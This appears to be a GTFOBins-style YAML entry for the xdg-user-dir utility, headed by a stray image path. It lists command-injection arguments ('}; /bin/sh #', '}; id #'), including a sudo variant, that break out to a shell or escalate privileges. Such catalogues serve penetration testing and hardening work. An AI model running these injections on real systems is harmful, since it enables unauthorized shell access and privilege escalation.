 ```yaml
---
functions:
  shell:
    - code: xdg-user-dir '}; /bin/sh #'
  command:
    - code: xdg-user-dir '}; id #'
  sudo:
    - code: sudo xdg-user-dir '}; /bin/sh #'
---
```

